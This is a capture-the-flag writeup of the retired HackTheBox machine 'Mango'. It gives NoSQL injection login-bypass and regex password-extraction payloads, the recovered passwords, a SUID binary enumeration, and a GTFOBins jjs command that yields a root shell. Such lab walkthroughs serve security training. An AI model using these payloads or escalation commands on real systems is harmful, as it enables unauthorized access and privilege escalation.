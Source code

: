 Title:HTB: Mango
Date: 10-21-2020 11:25
category:security
tags:security, boot2root, HTB, NoSQL, SUID
meta:security, boot2root, HTB, NoSQL, SUID

<img class="align-left" src="/media/2020.xx/mango_card.png" alt="Mango card" width="262">


This is a writeup about a retired HacktheBox machine:
[Mango](https://www.hackthebox.eu/home/machines/profile/214)
This box is classified as a medium machine. It involves a some NoSQL injections
and a SUID binary.

<!-- PELICAN_END_SUMMARY -->

[TOC]

# Recon

We start with an nmap scan. Only the ports 22 (SSH) 80 (HTTP) and 443 (HTTPS) are open.

    :::text
    # Nmap 7.80 scan initiated Thu Nov 21 13:22:00 2019 as: nmap -p- -sSV -oA nmap 10.10.10.162
    Nmap scan report for 10.10.10.162
    Host is up (0.086s latency).
    Not shown: 65532 closed ports
    PORT    STATE SERVICE  VERSION
    22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
    443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Thu Nov 21 13:24:55 2019 -- 1 IP address (1 host up) scanned in 175.48 seconds
    # Web

We can run a dirb on both ports but this won't give use any lead.

The website on port 443 is a search engine with an analytic part allowing to
connect to a remote elastic search.

When looking at the SSL certificat we get some information about a subdomain
"staging-order.mango.htb". We add an entry to our `/etc/hosts` and are able to
access the website.

![Mango certificat](/media/2020.xx/mango_1.png)

The website is a simple authentication form.


![Mango login page](/media/2020.xx/mango_2.png)

https://mangomap.com/security/

https://www.mangoapps.com/

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection

https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1542039176.pdf


When we try to login as "admin" with the password "place" the POST parameters
are the following:

    username=admin&password=place&login=login

We edit the request with Burp and send the following:

    username=admin&password[%24ne]=place&login=login

We can get the password's length

    username[%24ne]=admin&password[%24regex]=.{16}&login=login

![Mango plantation](/media/2020.xx/mango_3.png)

![Mango plantation](/media/2020.xx/mango_4.png)
![Mango plantation](/media/2020.xx/mango_5.png)

username[%24ne]=admin&password[%24regex]=h3§q§.{13}&login=login
username[%24ne]=admin&password[%24regex]=h3m§q§.{12}&login=login
username[%24ne]=admin&password[%24regex]=h3mXK8RhU§q§.{6}&login=login
username[%24ne]=admin&password[%24regex]=h3mXK8RhU~f{]f5§q§.{0}&login=login

h3mXK8RhU~f{]f5H

It is a password but not admin password!

username=admin&password[%24regex]=§a§.{12}&login=login

t9KcS3>!0B#2

mango@mango:~$ su admin
Password: 
$ ls
$ cd
$ ls
jjs  user.txt
$ cat user.txt
79bf31<redacted>

# Getting root

We start enumerating the box for privileges escalation.

    :::text
    admin@mango:/home/admin$ sudo -l
    [sudo] password for admin: 
    Sorry, user admin may not run sudo on mango.
    admin@mango:/home/admin$ find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
    -rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
    -rwsr-xr-x 1 root root 43088 Oct 15  2018 /bin/mount
    -rwsr-xr-x 1 root root 26696 Oct 15  2018 /bin/umount
    -rwsr-xr-x 1 root root 44664 Jan 25  2018 /bin/su
    -rwsr-xr-x 1 root root 64424 Mar  9  2017 /bin/ping
    -rwsr-xr-x 1 root root 40152 May 15  2019 /snap/core/7713/bin/mount
    -rwsr-xr-x 1 root root 44168 May  7  2014 /snap/core/7713/bin/ping
    -rwsr-xr-x 1 root root 44680 May  7  2014 /snap/core/7713/bin/ping6
    -rwsr-xr-x 1 root root 40128 Mar 25  2019 /snap/core/7713/bin/su
    -rwsr-xr-x 1 root root 27608 May 15  2019 /snap/core/7713/bin/umount
    -rwsr-xr-x 1 root root 71824 Mar 25  2019 /snap/core/7713/usr/bin/chfn
    -rwsr-xr-x 1 root root 40432 Mar 25  2019 /snap/core/7713/usr/bin/chsh
    -rwsr-xr-x 1 root root 75304 Mar 25  2019 /snap/core/7713/usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39904 Mar 25  2019 /snap/core/7713/usr/bin/newgrp
    -rwsr-xr-x 1 root root 54256 Mar 25  2019 /snap/core/7713/usr/bin/passwd
    -rwsr-xr-x 1 root root 136808 Jun 10 22:53 /snap/core/7713/usr/bin/sudo
    -rwsr-xr-- 1 root systemd-resolve 42992 Jun 10 19:46 /snap/core/7713/usr/lib/dbus-1.0/dbus-daemon-launch-helper
    -rwsr-xr-x 1 root root 428240 Mar  4  2019 /snap/core/7713/usr/lib/openssh/ssh-keysign
    -rwsr-sr-x 1 root root 106696 Aug 30 07:09 /snap/core/7713/usr/lib/snapd/snap-confine
    -rwsr-xr-- 1 root dip 394984 Jun 12  2018 /snap/core/7713/usr/sbin/pppd
    -rwsr-xr-x 1 root root 40152 May 16  2018 /snap/core/6350/bin/mount
    -rwsr-xr-x 1 root root 44168 May  7  2014 /snap/core/6350/bin/ping
    -rwsr-xr-x 1 root root 44680 May  7  2014 /snap/core/6350/bin/ping6
    -rwsr-xr-x 1 root root 40128 May 17  2017 /snap/core/6350/bin/su
    -rwsr-xr-x 1 root root 27608 May 16  2018 /snap/core/6350/bin/umount
    -rwsr-xr-x 1 root root 71824 May 17  2017 /snap/core/6350/usr/bin/chfn
    -rwsr-xr-x 1 root root 40432 May 17  2017 /snap/core/6350/usr/bin/chsh
    -rwsr-xr-x 1 root root 75304 May 17  2017 /snap/core/6350/usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39904 May 17  2017 /snap/core/6350/usr/bin/newgrp
    -rwsr-xr-x 1 root root 54256 May 17  2017 /snap/core/6350/usr/bin/passwd
    -rwsr-xr-x 1 root root 136808 Jul  4  2017 /snap/core/6350/usr/bin/sudo
    -rwsr-xr-- 1 root systemd-resolve 42992 Jan 12  2017 /snap/core/6350/usr/lib/dbus-1.0/dbus-daemon-launch-helper
    -rwsr-xr-x 1 root root 428240 Nov  5  2018 /snap/core/6350/usr/lib/openssh/ssh-keysign
    -rwsr-sr-x 1 root root 98472 Jan 29  2019 /snap/core/6350/usr/lib/snapd/snap-confine
    -rwsr-xr-- 1 root dip 394984 Jun 12  2018 /snap/core/6350/usr/sbin/pppd
    -rwsr-xr-x 1 root root 37136 Jan 25  2018 /usr/bin/newuidmap
    -rwsr-xr-x 1 root root 40344 Jan 25  2018 /usr/bin/newgrp
    -rwsr-xr-x 1 root root 75824 Jan 25  2018 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 59640 Jan 25  2018 /usr/bin/passwd
    -rwsr-xr-x 1 root root 37136 Jan 25  2018 /usr/bin/newgidmap
    -rwsr-sr-x 1 root root 18161 Jul 15  2016 /usr/bin/run-mailcap
    -rwsr-xr-x 1 root root 76496 Jan 25  2018 /usr/bin/chfn
    -rwsr-xr-x 1 root root 44528 Jan 25  2018 /usr/bin/chsh
    -rwsr-xr-x 1 root root 149080 Jan 18  2018 /usr/bin/sudo
    -rwsr-sr-x 1 daemon daemon 51464 Feb 20  2018 /usr/bin/at
    -rwsr-xr-x 1 root root 18448 Mar  9  2017 /usr/bin/traceroute6.iputils
    -rwsr-xr-x 1 root root 22520 Mar 27  2019 /usr/bin/pkexec
    -rwsr-xr-- 1 root messagebus 42992 Jun 10 18:05 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    -rwsr-xr-x 1 root root 100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    -rwsr-xr-x 1 root root 14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
    -rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
    -rwsr-sr-- 1 root admin 10352 Jul 18 18:21 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
    -rwsr-xr-x 1 root root 436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
    -rwsr-sr-x 1 root root 101240 Mar 15  2019 /usr/lib/snapd/snap-confine

We search for the binaries on GTFObins and [jjs](https://gtfobins.github.io/gtfobins/jjs/#suid)
get ou attention. We can directly use the gtfobins command but the process just hang.

`
admin@mango:/home/mango$ echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | /usr/lib/jvm/java-11-openjdk-/bin/jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc $@|sh${IFS}-p _ echo sh -p </dev/pts/0 >/dev/pts/0 2>/dev/pts/0').waitFor()
# 
`

We modify in to use `/bin/bash` instead of `sh` and it work (the user input are
not prompted when typing but when you hit enter it gives the command result).
The first command is `id` the second is `cat /root/root.txt`.

`
admin@mango:/home/mango$ echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo /bin/bash -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc $@|sh${IFS}-p _ echo /bin/bash -p </dev/pts/0 >/dev/pts/0 2>/dev/pts/0').waitFor()
bash-4.4# uid=4000000000(admin) gid=1001(admin) euid=0(root) groups=1001(admin)
bash-4.4# 8a8ef<redacted>
`
# Wrapping up

The NoSQL injection was quit fun. Doing it manually with Burp was really
interesting.

The `jjs` privilege escalation was not really hard.

